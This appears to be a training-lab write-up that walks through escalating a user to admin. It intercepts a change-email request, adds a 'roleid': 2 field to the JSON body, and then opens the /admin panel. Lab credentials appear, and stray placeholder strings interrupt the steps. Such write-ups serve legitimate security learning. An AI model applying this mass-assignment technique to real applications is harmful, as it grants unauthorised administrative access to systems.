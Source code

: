 ![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220513200709.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220513202538.png)

### User role can be modified in user profile
```bash

# This lab has an admin panel at /admin. It's only accessible to logged-in users with a roleid of 2.

# Solve the lab by accessing the admin panel and using it to delete the user carlos.

# You can log in to your own account using the following credentials: wiener:peter 

Login as wiener:peter
Go to: "My account"
Intercept is onOLD_LINE_PATTERN
Change email to preferred choice
Send the POST request to repeater

POST /my-account/change-email HTTP/1.1
OLD_LINE_PATTERN
Change:

{
"email":"email@email.com"
}

To

{
  "username": "wiener",
  "email": "email@email.com",
  "apikey": "cSkfx78SDuHLcovS8PBSOzE9tkXhvqZk",
  "roleid": 2
}

Note the response now signifies a roleid of "2"

HTTP/1.1 302 Found

"roleid": 2

Go to:

ac611f9c1f58d205c19b3a7a00820069.web-security-academy.net/admin

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220513202751.png)
